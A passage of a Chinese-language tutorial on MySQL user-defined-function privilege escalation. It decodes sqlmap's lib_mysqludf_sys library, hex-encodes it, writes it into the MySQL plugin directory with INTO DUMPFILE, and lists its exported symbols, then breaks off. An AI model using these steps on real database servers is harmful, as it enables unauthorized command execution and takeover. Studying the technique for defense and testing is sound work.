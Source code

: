 但是sqlmap 中 自带 的shell 以及一些二进制文件，为了防止被误杀都经过异或方式编码，不能直接使用,可以利用sqlmap 自带的解码工具cloak.py解码后，再直接利用。

进入到 sqlmap\extra\cloak 目录下，执行命令：

```
python clock.py -d -i /usr/share/sqlmap/data/udf/mysql/linux/64/lib_mysqludf_sys.so_
```

然后会生成一个lib_mysqludf_sys.so文件

![image-20201125173442662](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201125173442662.png)



### 3.使用udf

**1)将udf文件放到指定位置**

得到插件库路径

```
show variables like "%plugin%";
```

![image-20201125180437269](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201125180437269.png)

得到udf文件的十六进制格式，可在本地通过

```
select hex(load_file('/usr/share/sqlmap/udf/mysql/linux/64/lib_mysqludf_sys.so')) into outfile '/tmp/udf.txt';
```

#windows下cmd命令行处理

```
certutil -encodehex -f -v lib_mysqludf_sys.dll 1.txt 4
```

写入插件库

```
select '7F454C46020...' into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so';
```

**2)从udf文件中引入自定义函数**

查看下这个udf库所支持的函数

```
root@linux:~# nm -D /usr/lib/mysql/plugin/lib_mysqludf_sys.so
         w _Jv_RegisterClasses
0000000000201788 A __bss_start
         w __cxa_finalize
         w __gmon_start__
0000000000201788 A _edata
0000000000201798 A _end
0000000000001178 T _fini
0000000000000ba0 T _init
         U fgets
         U fork
         U free
         U getenv
000000000000101a T lib_mysqludf_sys_info
0000000000000da4 T lib_mysqludf_sys_info_deinit
0000000000001047 T lib_mysqludf_sys_info_init
         U malloc
         U mmap
         U pclose
         U popen
         U realloc
         U setenv
         U strcpy
```